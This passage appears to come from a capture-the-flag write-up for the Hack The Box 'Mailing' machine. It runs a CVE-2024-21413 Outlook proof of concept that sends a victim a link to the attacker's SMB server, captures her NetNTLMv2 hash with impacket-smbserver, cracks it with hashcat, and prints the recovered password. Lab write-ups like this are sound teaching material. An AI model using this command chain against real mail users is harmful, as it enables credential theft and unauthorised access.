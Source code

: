 ```shell
$ python CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender it@mailing.htb --recipient maya@mailing.htb --subject hey --url \\10.10.14.10\asdf

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                                                        

✅ Email sent successfully.
```

Start an `smbserver` and wait.

```shell
$ impacket-smbserver -smb2support kali .                          
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.14,52689)
[*] AUTHENTICATE_MESSAGE (MAILING\maya,MAILING)
[*] User MAILING\maya authenticated successfully
[*] maya::MAILING:aaaaaaaaaaaaaaaa:b5e9b462d7629052775cf089f0fba24c:010100000000000000ff557c50c4db013b4a64b85414973800000000010010006300630059007800480046004b007000030010006300630059007800480046004b0070000200100074005100710042005a00530065004f000400100074005100710042005a00530065004f000700080000ff557c50c4db0106000400020000000800300030000000000000000000000000200000bc50cd0cf8b2ad384d021cf2793b2cd9efcd8d2aca8f52768b9e268f3f76b08f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310030000000000000000000
[*] Connecting Share(1:IPC$)
```

```shell
$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt --force  
hashcat (v6.2.6) starting


MAYA::MAILING:aaaaaaaaaaaaaaaa:b5e9b462d7629052775cf089f0fba24c:010100000000000000ff557c50c4db013b4a64b85414973800000000010010006300630059007800480046004b007000030010006300630059007800480046004b0070000200100074005100710042005a00530065004f000400100074005100710042005a00530065004f000700080000ff557c50c4db0106000400020000000800300030000000000000000000000000200000bc50cd0cf8b2ad384d021cf2793b2cd9efcd8d2aca8f52768b9e268f3f76b08f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310030000000000000000000:m4y4ngs4ri
```

`maya:m4y4ngs4ri`

Checking with `nxc`, we can access via `winrm`.

![](../assets/Pasted%20image%2020250513235030.png)
